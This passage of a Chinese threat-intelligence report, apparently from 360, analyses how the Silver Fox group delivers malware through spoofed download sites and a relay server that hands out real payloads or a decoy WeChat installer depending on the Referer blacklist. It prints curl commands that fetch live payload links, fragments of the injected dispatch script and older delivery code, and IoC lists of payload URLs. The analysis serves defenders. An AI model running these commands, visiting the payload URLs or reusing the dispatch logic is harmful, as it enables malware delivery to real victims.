【组 4】不携带 Referer 头 / Referer: https://www.qq.com/ / Referer: https://oupeng-tr.com.cn/
  → 200  均返回 https://www.0akw8w.com/down910               （真实载荷，结果稳定）

【组 5】Referer=https://gg-steelseries.com.cn/的4种变体（改路径+查询参数 / 大小写 / http 协议 / www 子域）
  → 200  4/4 均返回微信包                           （与协议、路径、子域均无关）

【组 6】结构相似的全新域 gg-steelseries2.com.cn / 随机域 x7k2mq.com（均作为 Referer 携带）
  → 200  均返回真实载荷                                （无模式/后缀级拦截）

【组 7】60 秒后复测：Referer: https://org-bcut.com.cn/ / 全新随机域 pm3xw90r.net
  → 200  均返回真实载荷，与组 3/4 一致                   （决策结果不随时间改变）
```

验证脚本（`?t=` 需替换为当前 13 位毫秒时间戳）：

```bash
# 命中黑名单的域名：无论请求环境如何，均返回微信官方安装包
curl -s 'https://noah-ssh.com.cn/api.php?t=1789177588803' \
  -H 'Referer: https://gg-steelseries.com.cn/' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/152.0.0.0 Safari/537.36 Edg/152.0.0.0'
# {"download_link":"https://dldir1v6.qq.com/weixin/Universal/Windows/WeChatWin_4.1.13.exe"}

# 名单外域名：返回真实载荷
curl -s 'https://noah-ssh.com.cn/api.php?t=1789181000000' \
  -H 'Referer: https://org-bcut.com.cn/' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36'
# {"download_link":"https://www.0akw8w.com/down910"}

# 不携带 Referer：同样返回真实载荷（对照组 4）
curl -s 'https://noah-ssh.com.cn/api.php?t=1789181100000' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36'
# {"download_link":"https://www.0akw8w.com/down910"}

# 携带正常大站 Referer：同样返回真实载荷（对照组 4）
curl -s 'https://noah-ssh.com.cn/api.php?t=1789181200000' \
  -H 'Referer: https://www.qq.com/' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36'
# {"download_link":"https://www.0akw8w.com/down910"}
```

实验结论：

> 换 UA、换协议、改路径、加子域、甚至不带 Referer，对决策结果零影响——黑名单模型下，服务端唯一消费的变量仍然是 Referer 中的注册域名，但判断逻辑反了过来：**名单内 → 微信包，名单外 → 真实载荷**。

### 0x05: 两个模型，为什么银狐要换

把三个服务端策略阶段放在一起看（第三阶段是批量探测行动，不单独列为服务端策略）：

| 维度 | 第一阶段：无条件返回 | 第二阶段：白名单 | 第四阶段：黑名单 |
| --- | --- | --- | --- |
| 判断依据 | 不判断来源 | Referer 域名是否在**收量名单**内 | Referer 域名是否在**失效名单**内 |
| 在投域名 | 真实载荷 | 真实载荷 | 真实载荷（名单外） |
| 全新/未知域名 | 真实载荷 | 拿不到有效载荷 | 真实载荷 |
| 无 Referer | 真实载荷 | 拿不到有效载荷 | 真实载荷 |
| 已暴露域名（如 gg） | 真实载荷 | 已失效 | 微信包或其他无害素材 |
| 首次访问特性 | 无限制 | 无限制 | 当前观测无一次性限制 |
| 防批量探测效果 | 差：节点暴露即可取样 | 差：返回载荷可确认名单命中 | 较好：名单外请求结果相同，无法区分在投域名 |

切换的动机可从运营层面解释：**白名单时代"返回真实载荷 = 名单命中"的信号易被批量利用**——由于大批量域名探测正是基于该信号。切换为黑名单后，几乎所有请求都返回真实载荷，"以返回载荷识别银狐域名"的方法随即失效。换言之，一次策略切换使既有探测路径失效。

但黑名单并非没有代价。它把"已暴露/已处置"的域名变成了显性信号：**凡 api.php 返回微信官方包的域名，即可判定为银狐已暴露/处置/失效的仿冒域名**（该判定基于当前观测，未见反例）。新的识别信号由此形成——不再依赖"谁拿到载荷"，而是靠"谁被发微信包"。分析与反分析，又进入下一轮。

### 0x06: 域名状态机制

为便于理解，可以把银狐对每个仿冒域名的处置画成一条状态线（"失效待定"是我们根据行为反推的叫法，不代表服务端真有这么一个字段）：



*图3 银狐仿冒域名生命周期状态机制*

其中"恢复收量"这条边目前只是逻辑上的可能性，尚未观测到实例。值得强调的是状态机的关键不对称性：**黑名单外的域名与无名访客拿到的待遇与在投域名完全相同**——这正是七组对照实验（尤其组 3/4/6）能区分黑名单与白名单模型的原因。

从行为证据看，gg-steelseries.com.cn站当前的处境是：页面在线、51.LA 统计回传正常、按钮照常"能下载"——唯独 `api.php` 永远只给微信包。**下线动作没有落在页面上，而是落在了调度层的域名状态上。**

### 0x07: 和传统做法的差别

传统投递链里，仿冒域名一旦暴露，攻击者只能弃站重建——域名的死亡由暴露事件直接决定。而按本次观测到的行为，银狐把域名的下线动作从页面层挪到了调度层：

|  | 传统做法 | 银狐当前做法 |
| --- | --- | --- |
| 域名暴露后的处置 | 弃站/关站，页面死亡 | 调度层拉入失效名单，页面继续在线 |
| 收量控制 | 改页面/换域名，成本高 | 调度层实时决策，页面零改动 |
| 分析者视角 | 拿到样本即可确认 | 在投域名给样本、失效域名给官方包，结论随时间反转 |
| 运营数据 | 域名死后全部丢失 | 51.LA 持续回传，失效域名仍是观测窗口 |
| 对抗演化 | 静态 | 会随探测行为切换策略（无条件返回→白名单→黑名单） |

## 七、补充观察

### 0x01: 连 404 页面都被注入了调度脚本

还有一处值得单独说明的证据。浏览器自动请求 `favicon.ico` 时（任何站点都会发起的常规请求），服务器返回了 nginx 404 页面——而这个 404 页面的 HTML 里，**内嵌了完整的 r6 调度脚本**：

```http
GET /favicon.ico HTTP/2
Host: gg-steelseries.com.cn
Referer: https://gg-steelseries.com.cn/
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/152.0.0.0 Safari/537.36 Edg/152.0.0.0
```

```http
HTTP/2 404
content-encoding: gzip
content-type: text/html
date: Sat, 12 Sep 2026 01:46:28 GMT
etag: W/"6a7c4b26-1016"
server: nginx
vary: Accept-Encoding
```

404 页面的响应体（完整开头，4118 字节）：

```html
<html>
<head><title>404 Not Found</title><script>
(function () {
  var DISCOVERY = [
    'https://noah-ssh.com.cn/relays.json',
    'https://noah-relay.wotudj578.workers.dev',
    'https://noah-relay2.wotudj578.workers.dev'
  ];
  var POOL_KEY = 'noah_relay_pool';
  var LINK = '';
  var resolving = false;
  var NOAH_DL_REV = 'r6';
  // 后续 targets() / startDownload() / onClick() / bind() /
  // getCachedPool() / fetchLink() / discover() / resolve() 八个函数
  // 与正文还原的调度脚本逐行一致，此处不再重复
```

这意味着脚本注入在服务器/模板层面统一完成——只要请求落到这台 nginx 上，无论命中哪个路径（哪怕是 404），都会被塞进调度代码。即便受害者没有点击任何按钮，只要打开过站点，脚本就会执行并预取下载链接。

顺带一提，这段脚本本身是高置信度的服务端指纹：对任意路径发起无特化请求、检查响应体中是否包含 `noah_relay_pool` / `NOAH_DL_REV` 字符串，即可批量识别同源模板站点，不依赖任何主动探测行为。

### 0x02: 防护不对称：资源优先投向调度层

对两类基础设施分别探测后，一个部署层面的对比浮出水面：

**调度层（noah-ssh.com.cn）**：完整托管在 Cloudflare 代理之后，响应头带 `cf-ray` / `cf-cache-status: DYNAMIC`，源站 IP 隐藏。

**仿冒站层**：直连源站部署（A 记录为独立 IDC IP，非 Cloudflare IP 段），响应头 `Server: nginx`，无任何 CF 特征。且源站 443 端口配置粗糙——无论 SNI 传什么域名，一律返回同一张与本站域名不匹配的 Let's Encrypt 证书（多站共用），浏览器访问会出现证书告警。

这个"防护不对称"有两层含义：其一，防护资源明显偏向调度层——仿冒站被查封的成本较低（域名本按批次消耗），调度层作为核心资产，匿名性优先；其二，证书不匹配 + nginx + r6 模板指纹可组合为低成本的聚类特征，用于在证书透明度日志（CT log）与被动 DNS 数据中批量圈出同源仿冒站。

### 0x03: 僵尸代码：旧版投递逻辑的残留

页面中还残留着旧版投递逻辑：

```javascript
// gg-steelseries.com.cn 页面残留的旧版脚本（节选）
var fallbackUrl = 'https://gg-steelseries.com.cn/steelseries_gg_official.exe';

fetch('https://api.new-noah.top/api.php', { method: 'GET', mode: 'cors', cache: 'no-cache' })
  .then(function (response) {
    if (!response.ok) throw new Error('API响应错误');
    return response.json();
  })
  .then(function (data) {
    if (data && data.code === 0 && data.download_link) {
      downloadBtn.href = data.download_link;      // 拿到链接 → 改按钮
      downloadBtn.textContent = '? 前往官方下载';
    } else { useFallback(); }
  })
  .catch(function (error) { useFallback(); });    // 本次实测：走的就是这里
```

本次抓包中，这段代码的 `fetch` 请求未达服务器——`api.new-noah.top` 已死。其降级逻辑本应接管按钮（回退到自托管的 `steelseries_gg_official.exe`），但新版 r6 脚本在其 5 秒兜底超时之前完成了链接注入，旧代码未再发挥作用。新旧版本的能力对比详见文末附录。

## 八、企业侧的防御

1. 在 DNS/网关层对文末 IOC 域名实施封禁，重点覆盖 `.com.cn` 拼写近似官方域名的注册模式；
2. 对终端浏览器 `localStorage` 中出现 `noah_relay_pool` 键的主机进行排查回溯——该键的存在等于"该主机曾访问过银狐仿冒站"的直接证据；
3. 监控无 Referer 的 EXE 下载行为，以及对 `workers.dev`、非常见 `.com.cn` 域的跨域 fetch 请求；
4. 软件下载统一收敛至内部软件源/可信下载白名单，从源头压缩仿冒站触达面。

## 九、IoC

### 仿冒域名

```text
gg-steelseries.com.cn
org-bcut.com.cn
qudong-drive.com.cn
ludashi-lz.com.cn
ludashi-en.com.cn
g-todesk.com.cn
10jqka-ai1.com.cn
ca-nexus.com.cn
ca-nexus.com.cn
zh-cainiao.com.cn
pc-shanlian.com.cn
cm-deepseek.com.cn
……
```

### 中转节点

```text
noah-ssh.com.cn                     
noah-relay.wotudj578.workers.dev
noah-relay2.wotudj578.workers.dev
api.new-noah.top
fezhx.com
noah-admin.site
noah-serve.com
page-admin.site
noah-ssh.top
aqkey.top
laxmm.top
wxqka.top
……
```

### 载荷投递

```text
https://www.mudr94003.com/load311
https://www.ryzhe.com/down88
https://www.dvl51m.com/insdw62
https://www.vuxu661d.com/downe21
https://www.vunhk1734.com/load381
https://www.nwue61744.com/new81
https://www.reron1574.com/82load
https://www.dahsj918.com/down31
https://www.gyvg3ribwy.com/27load
https://www.dnuwmi981.com/downs5
……
```

### sha256

```text
2ea2d574f6136c1dc4eac921c88a9d8588cadb0173099e89366538c908a5e959
a4c72fe2ed9e47535b57cb3f75f7cbdff6ae112cc4353882fb1fa9e7ea8cfa9c
4e60484018db6fd57c40a30525efd9224add1727440f3f0ec1d47c8918cb8642
765012ff766c79dde3e319159bea2a913c624d033dc52c1b5133c7dbfd70b068
626dac3023c512d3d08ab728a1704f691fb9329ccc9e50be47e6dcb2f5e364a2
7870c7e1b3f57a026a2fcad3526048b87b835c04ec3a1a3600efd9234fb52f67
9668a2dc4df5fa0b94a986fedaec3fe2d0c2f93a7398e046268f0e71220f4bbd
9f9fc0b24645479525e61a48a7477263a90a9f534542012fb57f6f745b2b789f
69fb5df3009e817b84d0fc6ff6d091e767c0cc2698379fd7b89bc8001acb12dd
b26b4ec043eccbb7d2f8b0535deccc323256679c08038412a71218ce17ad8183
……
```

### 主机侧与流量侧特征

```text
localStorage 键:      noah_relay_pool
脚本版本标记:         NOAH_DL_REV = 'r6'（含 404 页面注入体）
请求特征:             /relays.json?_={13位毫秒时间戳}、/api.php?t={13位毫秒时间戳}，cache: no-store，跨域 fetch
统计 SDK:             51.LA，ID 3QIMielUrIaXc63E、3QbvgmKU4mQXDLRW
下载触发指纹:         无 Referer 的 EXE 下载（隐藏 <a> no-referrer / 隐藏 iframe）
服务端指纹:           任意路径（含 404 页）响应体中出现 noah_relay_pool / NOAH_DL_REV 字符串
部署特征:             部分仿冒站直连源站（非 CF IP），443 端口证书域名与本站不匹配（多站共用证书），可作为聚类特征
```

### ATT&CK 映射

| 战术 | 技术 | 对应行为 |
| --- | --- | --- |
| 资源开发 | T1583.001 获取基础设施：域名 | `.com.cn` 仿冒域名注册（白名单时代批量起域、大批量追猎目标） |
| 资源开发 | T1583.008 / T1583.009 获取基础设施：CDN | 调度层托管于 Cloudflare CDN 与 Workers（Serverless） |
| 资源开发 | T1583.006 获取基础设施：网络服务 / T1584.006 妥协基础设施：网络服务 | 仿冒下载站搭建与托管（SEO 元信息、JSON-LD 结构化数据） |
| 资源开发 | T1588.005 获取能力：二进制文件 | 载荷投递站托管银狐样本及微信官方包（兜底素材） |
| 初始访问 | T1566.002 网络钓鱼：鱼叉式钓鱼链接 | 仿冒官网经搜索渠道引导用户主动下载 |
| 防御规避 | T1036.005 伪装：匹配合法名称或位置 | 伪装赛睿 GG / 必剪官方安装程序 |
| 防御规避 | T1027 混淆文件或信息（T1027.010 命令混淆） | 白名单→黑名单策略切换，使批量探测方法失效（对抗演进） |
| 命令与控制 | T1105 工具进入（Ingress Tool Transfer） | relays.json → api.php → 载荷站三层动态下发样本 |

## 十、附录：新旧版本对比

| 维度 | 旧版（页内残留代码） | 新版 |
| --- | --- | --- |
| 样本链接来源 | 页面硬编码请求 `api.new-noah.top/api.php` | relays.json 动态发现中转池，逐个请求 `api.php?t=` |
| 单点故障 | API 域名失效即失效（本次实测请求未达服务器） | 主域 + 2 个 Cloudflare Workers 冗余，失效自动切换 |
| 页面降级 | 回退到仿冒域自托管 `steelseries_gg_official.exe` | 兜底返回微信官方安装包 |
| 域名生命周期 | 暴露即弃站，页面随域名一同死亡 | 调度层拉入失效名单、页面继续在线（柔性下线） |
| 载荷托管 | 依赖单一返回链接 | 独立载荷站 `0akw8w.com/down910`，与调度层解耦 |
| 下载触发 | 直接改写按钮 href | 隐藏 `<a>`（no-referrer）/ 隐藏 iframe |
| 完整性保护 | 无 | relays.json 预留 `sig` 签名字段（当前为空，疑似即将启用） |
| 检测面 | 封禁一个 API 域名即可断链 | 链路动态化 + 客户端缓存 + 服务端决策，需打掉整个池子 |
| 决策机制 | （第一阶段）无条件返回；（第二阶段）白名单 + 首次访问有效 | （当前）云端黑名单，名单外一律给载荷 |
|  |  |  |

## 十一、总结

从"硬编码 API + 本地兜底 exe"，到"动态中转池 + Cloudflare Workers 冗余 + 服务端决策 + 官方安装包马甲"，银狐的投递链已经高度工程化。而本次追踪最有价值的发现，不是某一台 API 的行为，而是**这套机制具备随对手动作调整的能力**：

- 最早阶段访问中转节点即可获得恶意样本，暴露后缺乏控制能力；
- 白名单时代，"Referer 即钥匙"，我们靠它对最近注册域名做了批量溯源；
- 推测批量探测被银狐侧感知后，其将决策模型切换为云端黑名单——"返回载荷"这一识别信号随即失效；
- 但新的黑名单机制又暴露了新的信号：**返回微信包的域名，就是银狐已处置的仿冒域名**。很遗憾，此信号只能验证已知银狐仿冒域名，无法用于生产。

攻防的落脚点，最终收敛为服务端名单中的一行状态：页面可以继续在线，投毒开关则由云端名单决定。标题所言的"云端生死簿"，正是指这份掌握域名生死状态的服务端名单。

对这类威胁的对抗，不能停留在"抓样本、封域名"的单点思维，更不能把单次观测结论当作永久结论——**对手会调整，机制会演化**。真正有效的监测，必须围绕其调度基础设施与投放生命周期做持续跟踪：盯住调度层，比盯住样本层更有效；跟踪策略演化，比记录单点状态更有效。

360威胁情报中心会持续关注此类情报，积极参与网络安全的建设。

---

> 转载说明：本文文字与图片版权归原作者及 360 威胁情报中心所有。若权利人认为本站转载不妥，请在评论区留言或通过站点联系方式告知，收到通知后立即删除。
